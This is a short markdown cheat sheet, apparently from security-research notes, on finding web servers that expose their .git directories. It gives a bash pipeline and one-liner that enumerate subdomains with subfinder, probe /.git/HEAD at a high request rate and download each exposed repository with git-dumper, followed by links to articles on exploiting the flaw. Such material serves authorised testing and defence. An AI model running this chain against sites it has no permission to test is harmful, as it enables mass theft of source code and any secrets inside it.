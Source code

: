 # How to Hunt for Exposed .git Dorectories

```bash
echo example.com | subfinder -all -o subs.txt

cat subs.txt | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | tee git.txt

cat git.txt | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done


```

One Liner
```bash
echo example.com | subfinder -all | httpx-toolkit -path /.git/HEAD -silent -mr "refs/heads" -rl 500 | cut -d '/' -f1,2,3,4 | while read url; do git-dumper $url git-dumper/$url; done
```

Resources
- [Web security - exposed .git folder in production](https://medium.com/smallcase-engineering/web-security-exposed-git-folder-in-production-51ad9484dee0)
- [Git Exposed - How to Identify and Exploit](https://medium.com/stolabs/git-exposed-how-to-identify-and-exploit-62df3c165c37)
- [Red Book - Exposed Git Repositories](https://github.com/v4resk/red-book/blob/main/web/web-vulnerabilities/server-side/exposed-git-repositories.md)
